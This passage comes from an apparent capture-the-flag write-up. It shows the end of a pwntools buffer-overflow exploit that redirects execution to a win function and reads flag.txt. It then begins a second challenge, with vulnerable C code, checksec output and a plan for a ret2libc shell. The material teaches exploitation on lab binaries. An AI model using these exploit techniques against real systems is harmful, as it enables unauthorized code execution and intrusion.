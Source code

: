 ```python
payload += b"B" * 8                 # overwrite the RBP
payload += p64(ret)                 # ret instruction for stack alignment
payload += p64(win_address)         # calculated address of the win function 

r.recvuntil(b"Where are we going? : \n")
r.sendline(payload)
r.recvuntil(b"ok, let's go!\n\n")
# r.interactive()                   # uncomment for an interactive shell
r.sendline(b"cat flag.txt")
print(r.recvline().decode())
r.close()
```

## The Librarian

For `The Librarian`, we are provided with the reference code:

```c
void vuln(){
    char *buf[0x20];
    puts("Again? Where this time? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
    }

int main(){
    setup();
    vuln();

}
```

This time, we have yet another buffer overflow vulnerability, but there is no function to jump to or variable to overwrite.

Checking the binary with `checksec`, we see that `PIE` is not enabled. This means we can overwrite the return address to jump to any part of the binary. However, there is nothing in the binary that directly helps us obtain the flag.

```console
$ checksec ./materials-TryPwnMeOne/TheLibrarian/thelibrarian
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
```

So, what can we do? Even though there is nothing useful directly in the binary, it is linked with the `libc` library, which provides functions like `puts` and `read`. The `libc` library also includes useful functions like `system`, which we can use to spawn a shell.

If we can overwrite the return address with the address of the `system` function and provide the correct parameters for this function call, we can spawn a shell. However, we face the same issue as before: with `PIE` enabled for `libc` and `ASLR` in effect, we cannot predict the exact address where `libc` will be located.

